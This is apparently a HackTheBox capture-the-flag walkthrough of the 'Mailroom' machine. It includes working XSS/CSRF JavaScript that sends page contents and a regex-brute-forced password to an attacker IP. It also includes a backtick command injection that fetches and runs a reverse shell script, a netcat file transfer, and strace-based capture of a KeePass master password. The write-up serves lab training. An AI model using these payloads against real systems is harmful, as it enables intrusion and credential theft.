This box is rated hard difficulty on HTB. It involves us chaining Cross-Site Scripting with Cross-Site Request Forgery in order to perform NoSQL injection on a staff subdomain. Doing so will recover a user's password that is reused over SSH, letting us grab a shell. Once on the machine, we discover that the staff site is vulnerable to command injection which lets us get a reverse shell in a container that holds user credentials inside of a .git config file. Finally, we can dump the memory of a user running the KeePass CLI binary to recover the master password and dump a database file that holds root credentials.

## Host Scanning
As always, I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP yields no results.

```
└─$ sudo nmap -p22,80 -sCV 10.129.229.1 -oN fullscan-tcp

Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-03 17:28 -0400
Nmap scan report for 10.129.229.1
Host is up (0.058s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 94:bb:2f:fc:ae:b9:b1:82:af:d7:89:81:1a:a7:6c:e5 (RSA)
|   256 82:1b:eb:75:8b:96:30:cf:94:6e:79:57:d9:dd:ec:a7 (ECDSA)
|_  256 19:fb:45:fe:b9:e4:27:5d:e5:bb:f3:54:97:dd:68:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
|_http-title: The Mail Room
|_http-server-header: Apache/2.4.54 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.32 seconds
```

There are just two ports open:
- SSH on port 22
- An Apache web server on port 80

## Website Enumeration
Not a whole lot we can do with that version of OpenSSH without credentials, so I fire up Ffuf to search for subdirectories and subdomains in the background before heading over to the site.

**Subdirectories:**

```
└─$ ffuf -u http://10.129.229.1/FUZZ -w /opt/seclists/directory-list-2.3-medium.txt                              

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.229.1/FUZZ
 :: Wordlist         : FUZZ: /opt/seclists/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

assets                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 50ms]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 53ms]
template                [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 56ms]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 51ms]
javascript              [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 57ms]
font                    [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 50ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 49ms]
:: Progress: [220546/220546] :: Job [1/1] :: 743 req/sec :: Duration: [0:05:24] :: Errors: 0 ::
```

**Subdomains:**

```
└─$ ffuf -u http://mailroom.htb -w /opt/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.mailroom.htb" --fs 7748 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://mailroom.htb
 :: Wordlist         : FUZZ: /opt/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.mailroom.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 7748
________________________________________________

git                     [Status: 200, Size: 13201, Words: 1009, Lines: 268, Duration: 69ms]
:: Progress: [114442/114442] :: Job [1/1] :: 694 req/sec :: Duration: [0:02:57] :: Errors: 0 ::
```

Checking out the landing page shows a site for shipping services. Hovering over the tabs reveal that it is built with PHP and the footer discloses a hostname of `mailroom.htb` which I add to my `/etc/hosts` file.



### Discovering Cross-Site Scripting
The About page shows that the organization is looking to expand their services in the future, so I'll keep an eye out for any common developmental pages or subdomains. 



Testing their contact form out for Cross-Site Scripting attacks shows that the page renders HTML components, indicating that it is indeed vulnerable. Following the link to review our message shows an inquiry status awaiting manual review, which could be key in some kind of client-side attack here.



### Gitea Site
Reviewing my scan results reveals a git subdomain, and after adding it to my hosts file, I head on over. We're met with a Gitea instance, a lightweight, self-hosted platform used to manage Git repositories, source code, and collaborative software development. 



The page's footer discloses the version that doesn't seem vulnerable to anything common. However, the Explore tab in the header allows us to look at a staffroom repository under Matthew's account.



The _auth.php_ page gives us yet another subdomain for a staff review panel, which is appended to my hosts file too.



Checking out that site throws a 403 Forbidden on any page, meaning we won't be able to gain access to anything under this subdomain as it stands.



## Exploitation

### XSS plus XSRF
It's a good bet that the person reviewing our inquiries on the original site will be authorized to view the staff review panel. By combining the XSS vulnerability with some type of Cross-Site Request Forgery, we may be able to see the contents of that site's pages.

I start by creating and hosting a JavaScript file that will be loaded by the person reviewing our inquiry. This will simply get the contents of the staff review panel subdomain's index page, convert it to base64, then send it back to my machine through an arbitrary parameter.

```
var req = new XMLHttpRequest()
req.open("GET", "http://staff-review-panel.mailroom.htb", false);
req.send()

var exfil = new XMLHttpRequest()
exfil.open("GET", "http://10.10.14.243/?a=" + btoa(req.responseText), true);
exfil.send()
```

We need to host it with a web server of some sort, I use a Python module.

```
└─$ python3 -m http.server 80
```

My XSS payload will just fetch this JS file from my host and give us the page contents after decoding:

```
<script src= "http://10.10.14.243/staff_request.js"></script>
```



This matches the index page from the Gitea repository, confirming that we are hitting the right place.



Reading through the index page's code once more shows a login panel that makes a POST request to _auth.php_.

**Index.php source (cut):**

```
[...]
 <!-- Login Form-->
  <script>
    // Get the form element
    const form = document.getElementById('login-form');

    // Add a submit event listener to the form
    form.addEventListener('submit', event => {
      // Prevent the default form submission
      event.preventDefault();

      // Send a POST request to the login.php script
      fetch('/auth.php', {
        method: 'POST',
        body: new URLSearchParams(new FormData(form)),
        headers: { 'Content-Type': 'application/x-www-form-urlencoded' }
      }).then(response => {
        return response.json();

      }).then(data => {
        // Display the name and message in the page
        document.getElementById('message').textContent = data.message;
        document.getElementById('password').value = '';
        document.getElementById('message').removeAttribute("hidden");
      }).catch(error => {
        // Display an error message
        //alert('Error: ' + error);
      });
    });
  </script>
</body>
</html>
```

It begins by connecting to the MongoDB server.

**Auth.php source (cut):**

```
<?php
require 'vendor/autoload.php';

session_start(); // Start a session
$client = new MongoDB\Client("mongodb://mongodb:27017"); // Connect to the MongoDB database
header('Content-Type: application/json');
if (!$client) {
  header('HTTP/1.1 503 Service Unavailable');
  echo json_encode(['success' => false, 'message' => 'Failed to connect to the database']);
  exit;
}
$collection = $client->backend_panel->users; // Select the users collection
```

Then it will verify that the email and password fields are valid strings, along with some pretty poor injection blocking. MongoDB uses NoSQL to query its databases, and this bit of code will just return an unauthorized header, but not actually kill invalid requests that contain non-string characters.

```
// Verify the parameters are valid
  if (!is_string($_POST['email']) || !is_string($_POST['password'])) {
    header('HTTP/1.1 401 Unauthorized');
    echo json_encode(['success' => false, 'message' => 'Invalid input detected']);
  }
```

That means we're able to attack this login form via a NoSQL injection attack through the XSS and on behalf of the user loading our malicious JavaScript. This makes for a very cool exploit chain that allows us to dump the MongoDB contents in hopes of grabbing credentials.

```
Cross-Site Scripting -> Cross-Site Request Forgery -> NoSQL Injection
```

### Adding NoSQL Injection
I'll start by just attempting to make a POST request to _auth.php_ page on the staff review panel site. 

```
var req = new XMLHttpRequest();
req.open("POST", "http://staff-review-panel.mailroom.htb/auth.php", false);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send("email=cbev@mailroom.htb&password=password");

var exfil_req = new XMLHttpRequest();
exfil.open("GET", "http://10.10.14.243/?a=" + btoa(req.responseText), true);
exfil.send();
```

We send another inquiry through to contact form pointing to the new JS file and wait for a hit back.



After decoding, it responds with an invalid login message which is to be expected.

```
└─$ echo -n 'eyJzdWNjZXNzIjpmYWxzZSwibWVzc2FnZSI6IkludmFsaWQgZW1haWwgb3IgcGFzc3dvcmQifQ== ' | base64 -d
{"success":false,"message":"Invalid email or password"} base64: invalid input
```

Now I'll begin injecting NoSQL operators to enumerate valid emails registered on the staff review panel site. We can supply `[$ne]` (the not equal operator) to achieve this goal, starting with my own email which should not be in the DB to establish a failure baseline.

```
var req = new XMLHttpRequest();
req.open("POST", "http://staff-review-panel.mailroom.htb/auth.php", false);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send("email[$ne]=cbev@mailroom.htb&password[$ne]=password");

var exfil = new XMLHttpRequest();
exfil.open("GET", "http://10.10.14.243/?a=" + btoa(req.responseText), true);
exfil.send();
```

This responds with a message saying check your inbox for a 2FA token, so we know that this will indicate an invalid email.

```
└─$ echo -n 'eyJzdWNjZXNzIjpmYWxzZSwibWVzc2FnZSI6IkludmFsaWQgaW5wdXQgZGV0ZWN0ZWQifXsic3VjY2VzcyI6dHJ1ZSwibWVzc2FnZSI6IkNoZWNrIHlvdXIgaW5ib3ggZm9yIGFuIGVtYWlsIHdpdGggeW91ciAyRkEgdG9rZW4ifQ==' | base64 -d
{"success":false,"message":"Invalid input detected"}{"success":true,"message":"Check your inbox for an email with your 2FA token"}
```

Repeating this process for each name listed in the About page as well as an Admin only returns one different response for the Tristan user.

```
└─$ echo -n 'eyJzdWNjZXNzIjpmYWxzZSwibWVzc2FnZSI6IkludmFsaWQgaW5wdXQgZGV0ZWN0ZWQifTxiciAvPgo8Yj5XYXJuaW5nPC9iPjogIENhbm5vdCBtb2RpZnkgaGVhZGVyIGluZm9ybWF0aW9uIC0gaGVhZGVycyBhbHJlYWR5IHNlbnQgYnkgKG91dHB1dCBzdGFydGVkIGF0IC92YXIvd3d3L3N0YWZmcm9vbS9hdXRoLnBocDoyMCkgaW4gPGI+L3Zhci93d3cvc3RhZmZyb29tL2F1dGgucGhwPC9iPiBvbiBsaW5lIDxiPjUxPC9iPjxiciAvPgp7InN1Y2Nlc3MiOmZhbHNlLCJtZXNzYWdlIjoiSW52YWxpZCBlbWFpbCBvciBwYXNzd29yZCJ9' | base64 -d
{"success":false,"message":"Invalid input detected"}<br />
<b>Warning</b>:  Cannot modify header information - headers already sent by (output started at /var/www/staffroom/auth.php:20) in <b>/var/www/staffroom/auth.php</b> on line <b>51</b><br />
{"success":false,"message":"Invalid email or password"}
```



Referring to some of [TryHackMe's course material](https://tryhackme.com/room/nosqlinjectiontutorial) and [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection) helps me with this next step.

### Recovering User Creds
After a long while of debugging, I create a script to brute-force Tristan's password one character at a time using the NoSQL `[$regex]` operator. This will keep looping over all characters and appending the valid ones to the password string, effectively recovering the password by filtering the response's length (130 being valid).

```
var password = "";
var charset =
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!%<>@#";

for (let i = 0; i < charset.length; i++) {
    var payload_req = new XMLHttpRequest();
    let test_pass = password + charset[i];
    payload_req.open(
        "POST",
        "http://staff-review-panel.mailroom.htb/auth.php",
        false
    );
    payload_req.setRequestHeader(
        "Content-Type",
        "application/x-www-form-urlencoded"
    );
    payload_req.send(
        "email=tristan@mailroom.htb&password[$regex]=" + test_pass + ".*"
    );

    if (payload_req.responseText.includes("2FA")) {
        password += charset[i];

        var exfil = new XMLHttpRequest();
        exfil.open("GET", "http://10.10.14.243/?pwd=" + password, true);
        exfil.send();
        i = 0;
    }
}
```

Sending another XSS payload exfils the password to our Python web server and grants us valid credentials for Tristan.



## Privilege Escalation
Luckily, these work over SSH and grant us a valid login so we don't have to deal with following page redirects. We can now focus on escalating privileges towards root user, beginning with a pivot to Matthew's account.



Listing any special file capabilities, sudo permissions, or binaries with SUID bits set returns nothing of interest.



### Command Injection on Staff Site
A bit more enumeration on the filesystem shows an email inside of `/var/mail` containing a 2FA token that can be used to authenticate to the staff review panel site.



First we must port forward the web server to our machine to get around the 403 Forbidden code, which looks to be blocking external IPs. I will create a new SSH session with the `-D` flag to make a dynamic SOCKS proxy that will allow me to access the site. We will need to append `staff-review-panel.mailroom.htb` to the **127.0.0.1** section of our `/etc/hosts` file as well.

```
└─$ ssh tristan@mailroom.htb -D 1080
```



Since I already have FoxyProxy installed on my Firefox browser, I'll use it to configure a SOCKS5 proxy on a loopback address and match the port used in the SSH command.



Now we can head over to the page using the link found in Tristan's inbox.



There is an inspect function that allows us to read the submitted inquiries, and by reading the source code from the Gitea pages, we can see that it is very vulnerable to command injection.

```
[...]
$data = '';
if (isset($_POST['inquiry_id'])) {
  $inquiryId = preg_replace('/[\$<>;|&{}\(\)\[\]\'\"]/', '', $_POST['inquiry_id']);
  $contents = shell_exec("cat /var/www/mailroom/inquiries/$inquiryId.html");
[...]
```

It passes our argument into a shell_exec function that is supposed to cat the file we provided, but could be used in a malicious way. This page does quite a lot of special character filtering, so something like a bash one-liner reverse shell on its own won't work. I thought of doing command substitution by wrapping it in `$()`, but those were filtered.

After a bit of research and messing around with it, I found that we could use backticks as a method for command substitution and use cURL to write a reverse shell to the disk in the `/tmp` directory. 

```
`curl 10.10.14.243/shelly.sh -o /tmp/shelly.sh`
```



### Creds in Web Container
After standing up a Netcat listener, all that's left is to execute the shell and get a session as www-data.

```
`bash /tmp/shelly.sh`
```



This may seem like a step down since we already have CLI access as Tristan, but the hostname indicates that we are in a container. My earlier enumeration also found a containerd directory that enforces this idea.

Other than a _send.sh_ script in `/var/www/hmtl`, it seems pretty empty, but this is where all of the website's files are stored.



Knowing that one of the sites was using Gitea, I figured that one of the directories held credentials a **.git** directory. There was nothing interesting by showing the differences between commits, but I end up finding a password for Matthew under the staffroom's config file.



This is reused for the machine as well, allowing us to switch users from our previous SSH session as Tristan. Note that password login for Matthew over SSH is disabled and apart of the password from the URL line is percent-encoded, so we must convert it back to ASCII for a valid login.

### KeePass Database File
At this point we can grab the user flag under his home directory and see about grabbing root privileges.



The only other thing in this directory is a KeePass database file which looks to contain personal credentials. It's a good bet that Matthew has a root password stored in there since the site lists him as the system administrator.

I don't really want to fumble around with SSH, so I'll transfer this through a Netcat connection and redirect the file's contents into a file on my local machine.

```
--On local machine--
└─$ nc -lvnp 1234 > personal.kdbx

--On remote machine--
matthew@mailroom:~$ nc 10.10.14.243 1234 < personal.kdbx
```

This won't terminate a connection, but after a few seconds we can `CTRL + C` it, leaving us with a valid file.





This database file is password-protected, but we can use a tool like [keepass2john](https://github.com/ivanmrsulja/keepass2john) in order to convert it into a crackable format and recover it.



Sending it over to Hashcat or JohnTheRipper won't crack in a reasonable time, so I head back to the machine. The service itself doesn't appear to be vulnerable and Matthew doesn't have any special privileges despite being a sysadmin.

### Password via Memory Dump
I eventually decide to upload [pspy](https://github.com/dominicbreuker/pspy) in order to snoop on background processes, hoping to find a script being executed by root user. The output reveals that a UID matching Matthew's is running perl against the kpcli (KeePass Command-Line tool) binary every minute or so on the machine.



We can infer that Matthew is opening up the personal.kdbx file to get manage his credentials, so perhaps we can capture the process and trace what characters are being entered at the prompt.

To do so, I will grab the PID of the currently running kpcli process and run strace against it, while outputting the contents to a file so we can grep through it.

```
└─$ strace -f -p $(ps aux | grep '[k]pcli' | awk '{ print $2 }') -e trace=read -o kpcli.out
```

Just displaying it as is gets pretty confusing, but we're looking for characters read in like so.



With a bit of Bash magic, we can reconstruct the password by looking for strings containing `= 1` at the end, extracting the characters being read in, deleting newline characters, and then replacing the printed newline characters (`\n`) with real ones.

```
└─$ cat kpcli.out | grep '= 1$' | cut -d'"' -f2 | tr -d '\n' | sed 's/\\n/\n/g
```



This gives us the password on the first line, however since strace captures all input, there is a strange `\10` in the middle of it which blocks it from working. I eventually figure out that this is in octal format and represents a backspace.



Interpreting this correctly shows that the user deletes the character before `\10` in the password, leaving us with a valid password. For example, a string like `abcdef\10ghi` becomes `abcdeghi`.

Finally, I install Keepass2 on my Kali machine to dump the database, giving us the machine's root password.

```
└─$ sudo apt install keepass2

└─$ keepass2 personal.kdbx
```



Switching users lets us grab the final flag under the root directory, completing this challenge.



Overall, this box was pretty difficult for me because even though I could recognize the web vulnerabilities present, I'm still a novice at chaining and exploiting them. That being said, I really enjoyed this box since it seemingly covered almost all parts of web and Linux vulnerabilities. I hope this was helpful to anyone following along or stuck like I was and happy hacking!
